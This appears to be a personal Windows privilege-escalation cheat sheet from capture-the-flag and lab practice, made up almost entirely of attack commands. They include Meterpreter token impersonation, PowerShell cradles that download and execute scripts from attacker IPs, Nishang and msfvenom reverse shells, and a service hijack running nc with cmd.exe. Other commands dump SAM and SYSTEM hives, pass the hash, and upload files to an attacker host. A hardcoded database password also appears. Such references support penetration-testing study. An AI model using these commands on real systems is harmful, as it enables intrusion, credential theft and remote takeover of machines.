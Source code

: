 ## Meterpreter
### Enumerators
```
run post/multi/recon/local_exploit_suggester
```
### Port forward
```
portfw add -l 455 -p 455 -r 127.0.0.1
```
### Rotten Potato
```
load incognito
list_tokens -u
execute -cH -f rottenpotato.exe
impersonate_token BUILTIN\Administrators
```

## Windows Enum and Utilities
### Manual
```
whoami /all
net user
hostname
systeminfo
tasklist /SVC
ipconfig /all
route print
netstat -ano
netsh advfirewall show currentprofile
netsh advfirewall firewall show rule name=all
schtasks /query /fo LIST /v
wmic product get name, version, vendor
wmic qfe get Caption, Description, HotFixID, InstalledOn
accesschk.exe -uws "Everyone" "C:\Program Files"
powershell -c "driverquery.exe /v /fo csv | ConvertFrom-CSV | Select-Object 'Display Name', 'Start Mode', Path"
powershell -c "Get-WmiObject Win32_PnPSignedDriver | Select-Object DeviceName, DriverVersion, Manufacturer | Where-Object {$_.DeviceName -like '*VMware*'}"
reg query HKEY_LOCAL_MACHINE\Software\Policies\Microsoft\Windows\Installer
reg query HKEY_CURRENT_USER\Software\Policies\Microsoft\Windows\Installer
```
### Script
```
echo IEX(New-Object Net.WebClient).downloadString('http://10.10.14.3/PowerUp.ps1') | powershell -noprofile -
certutil -urlcache -split -f http://192.168.119.199/windows-privesc-check2.exe
```

### Reverse powershell using Nishang
```
cp ~/post-exploit/nishang/Shells/Invoke-PowerShellTcp.ps1 ~/HTB/chatterbox/
powershell "IEX(New-Object Net.webClient).downloadString('http://10.10.14.3/shell')"
```

### Check permission
```
Get-ACL administrator | Fl *
icacls "file"
```

### Change file permission
```
cacls root.txt /t /e /p Alfred:F
```

### Get sam
```
reg save hklm\sam c:\sam
reg save hklm\system c:\system
```

### With NTLM hash
```
pth-winexe -U jeeves/administrator //10.10.10.63 cmd.exe
```

### Juicy Potato
```
JuicyPotato.exe -l 7777 -p C:\Users\Public\hope.exe -t *
```

### smbserver.py
On attacker machine
```
sudo smbserver.py quang `pwd`
```

On victim machine
```
New-PSDrive -Name "yoyo" -PSProvider FileSystem -Root "\\10.10.14.3\quang"
cd yoyo:
```
### wget
```
certutil -urlcache -f http://123.123.123.123/file c:/user/administrator/file
```
or Create ps file with
```
$client = new-object System.Net.WebClient
$client.DownloadFile("http://10.10.14.3/shell.exe","C:\users\kohsuke\shell.exe")
```

### Upload
```
powershell (New-Object System.Net.WebClient).UploadFile('http://192.168.119.199/upload.php', 'important.docx')
```

### Hidden bin folder for 64bit
```
C:\WINDOWS\sysnative\WindowsPowerShell\v1.0\powershell.exe
C:\WINDOWS\syswow64\WindowsPowerShell\v1.0\powershell.exe
```

### Local mysql
```
mysql --user="dbuser" --database="sniper" --password="36mEAhz/B8xQ~2VM" < \\10.10.14.6\hacker\test.sql
```
## Common Vuln
### Weak service permission
How to spot
```
Use PowerUp script
accesschk.exe -uwcqv "Authenticated Users" * /accepteula
accesschk.exe -uwcqv %USERNAME% * /accepteula
accesschk.exe -uwcqv "BUILTIN\Users" * /accepteula 2>nul
sc qc servicename
```
Exploit
```
sc config upnphost binpath= "C:\Inetpub\wwwroot\nc.exe YOUR_IP 1234 -e C:\WINDOWS\System32\cmd.exe"
sc config upnphost obj= ".\LocalSystem" password= ""
sc qc upnphost
sc config SSDPSRV start= auto
net start SSDPSRV
net start upnphost
```
### An user is admin
Exploit
#### Run as user
```
$SecPass = ConvertTo-SecureString 'Welcome1!' -AsPlainText -Force
$cred = New-Object System.Management.Automation.PSCredential('Administrator', $SecPass)
Start-Process -FilePath "powershell" -argumentlist "IEX(New-Object Net.webClient).downloadString('http://10.10.14.3/shell')" -Credential $cred
```

#### Run as NTAuth/System from local admin
```
PsExec.exe -accepteula -i -s %SystemRoot%\System32\cmd.exe
sc create newservicename binPath= "C:\windows\system32\cmd.exe"
sc start newservicename
```

### Elevate from local service or network service
https://github.com/itm4n/FullPowers

### Weak Service binary permission or unquoted service path
```
msfvenom -p windows/shell_reverse_tcp LHOST=192.168.119.199 LPORT=443 -f exe-service > shell.exe
```

### Local service
How to spot
```
netstat -ano
tasklist /svc
tasklist /v /fi "pid eq 123"
```

### always install elevated
```
msfvenom -p windows/meterpreter/reverse_tcp lhost=192.168.1.120 lport=443 –f msi > shell.msi
msiexec /quiet /qn /i shell.msi
```

### DLL injection
https://book.hacktricks.xyz/windows/windows-local-privilege-escalation/dll-hijacking
